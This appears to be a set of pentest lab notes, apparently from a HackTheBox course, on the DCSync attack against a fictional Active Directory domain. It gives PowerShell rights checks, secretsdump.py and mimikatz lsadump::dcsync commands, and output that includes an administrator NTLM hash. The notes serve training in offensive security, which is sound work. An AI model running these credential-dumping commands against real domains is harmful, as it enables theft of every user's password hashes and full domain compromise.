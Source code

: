 DCSync Attack
###############

Date: 2025-01-04 10:18:32

Tags: :ref:`active directory enumeration attacks`

Status: #new



Description 
**************
DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The user account we are attacking with requires the `DS-Replication-Get-Changes-All extended right` permission.  You can verify that asssociation with this command:

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

    samaccountname     : adunn
    objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
    memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                        Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                        Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                        Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
    useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD

And then by using the SID value look for the access rights:

.. code-block:: powershell

    PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
    PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | flAceQualifier          : AccessAllowed
    
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
    ObjectAceType         : DS-Replication-Get-Changes

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
    ObjectAceType         : DS-Replication-Get-Changes-All

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes-All


Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
****************************************************************

.. code-block:: bash

    Temen@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 


.. note:: We can use the -just-dc-ntlm flag if we only want NTLM hashes or specify -just-dc-user <USERNAME> to only extract data for a specific user. 

Other useful options:
=======================

**-pwd-last-set** to see when each account's password was last changed

**-history** to dump password history

**user-status** to check to see if users are disabled.

The above command will dump hashes of types into individual files. 


Finding users that have reversible encrypted passwords set. 
==============================================================

Using the following command you can find these users and decrypt their passwords with the key found in (https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview) 

.. code-block:: powershell

    PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

or with this command:

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol


Running powershell as a different user:
==========================================

.. code-block:: console

    C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell


Performing the DCSync attack with :ref:`mimikatz`
***************************************************

.. code-block:: powershell

    PS C:\htb> .\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
    [DC] 'INLANEFREIGHT.LOCAL' will be the domain
    [DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
    [DC] 'INLANEFREIGHT\administrator' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)

    Object RDN           : Administrator

    ** SAM ACCOUNT **

    SAM Username         : administrator
    User Principal Name  : administrator@inlanefreight.local
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
    Account expiration   :
    Password last change : 10/27/2021 6:49:32 AM
    Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
    Object Relative ID   : 500

    Credentials:
    Hash NTLM: 88ad09182de639ccc6579eb0849751cf

    Supplemental Credentials:
    * Primary:NTLM-Strong-NTOWF *
        Random Value : 4625fd0c31368ff4c255a3b876eaac3d

    <SNIP>

